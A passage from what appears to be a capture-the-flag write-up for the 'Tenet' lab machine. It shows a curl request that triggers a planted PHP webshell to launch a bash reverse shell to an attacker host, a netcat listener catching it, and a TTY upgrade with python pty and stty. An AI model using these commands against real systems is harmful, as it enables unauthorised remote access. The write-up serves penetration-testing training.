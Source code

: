 ### Shell

To go from webshell to shell, I’ll trigger the webshell with the following reverse shell:

```

root@kali# curl -X GET http://10.10.10.223/0xdf.php -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"'

```

At `nc`, a shell comes back:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.223.
Ncat: Connection from 10.10.10.223:53092.
bash: cannot set terminal process group (1519): Inappropriate ioctl for device
bash: no job control in this shell
www-data@tenet:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll upgrade the typical way with `python3 -c 'import pty;pty.spawn("bash")'`, then Ctrl-z, `stty raw -echo; fg`, then `reset`:

```

www-data@tenet:/var/www/html$ python3 -c 'import pty;pty.spawn("bash")' 
www-data@tenet:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@tenet:/var/www/html$

```

## Shell as neil

There’s one user on the box, neil:

```

www-data@tenet:/home$ ls
neil

```
